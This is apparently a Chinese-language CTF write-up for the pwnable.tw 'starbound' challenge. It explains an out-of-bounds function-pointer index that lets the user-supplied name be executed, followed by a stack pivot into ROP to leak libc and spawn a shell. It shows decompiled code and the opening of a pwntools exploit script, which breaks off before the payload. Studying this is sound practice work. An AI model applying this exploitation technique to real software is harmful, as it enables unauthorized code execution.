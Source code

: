 ## starbound + spirited_away wp

### starbound

#### 题目分析

题目是一个很有趣的rpg游戏，代码量不算小。init_map的那一部分只看懂了一小部分，具体的地图生成还是没有搞明白。

但是重点不在这里，题目的漏洞在一开始的菜单中就已经给出了，读入choice之后要根据choice去函数数组中拿出对应idx的函数指针然后执行对应的函数，但是在读入choice之后没有对choice的大小进行检测，导致可以越界访问函数指针。

恰好在函数指针数组网上一点点的的地方保存着读入的name，这样的话就可以将读入的name当作函数指针去执行。而且题目没有开启pie，配合程序自带的一个 add esp, 0x1c; ret;的gadget可以直接回到栈里做rop，而栈里正好有0x100个字节的内存是用于输入choice的，可以控制，所以可以直接做rop。

利用这个rop泄露地址，然后再返回main函数，再用一次getshell。

```c
  while ( 1 )
  {
    alarm(0x3Cu);
    menu_func();
    if ( !readn(nptr, 0x100u) )
      break;
    v3 = strtol(nptr, 0, 10);
    if ( !v3 )
      break;
    ((void (*)(void))vuln_array[v3])();         // 数组越界
  }
  do_bye();
  return 0;
```

这道题的难处就在于，代码量很大容易掩盖住漏洞，具体的利用倒是不难，就是灵活使用gadget返回栈中做rop。

#### EXP：

```python
#coding=utf-8
from pwn import *
from LibcSearcher import *
local = 0
exec_file="./starbound"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10202)
    #libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
        if "libc-2.31.so" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x0804A65D
    '''
```